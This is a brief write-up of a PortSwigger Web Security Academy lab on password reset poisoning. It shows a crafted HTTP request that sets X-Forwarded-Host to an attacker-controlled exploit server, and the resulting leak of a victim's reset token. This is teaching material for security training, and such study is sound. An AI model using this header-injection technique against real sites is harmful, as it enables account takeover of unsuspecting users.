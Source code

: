 # [Lab: Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)

## Lab

This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

## Vulnerability

server generates reset password url based on `Host` header (or `X-Forwarded-Host`)

## Solutions

```http
POST /forgot-password HTTP/1.1
Host: id.web-security-academy.net
X-Forwarded-Host: exploit-id.exploit-server.net

username=carlos
```

=> target send to exploit server a url with token to reset carlos account: `GET /forgot-password?temp-forgot-password-token=Tgqy7jOIqp7zKPShXYJJcJFvbTEoaZzF HTTP/1.1"`

solved
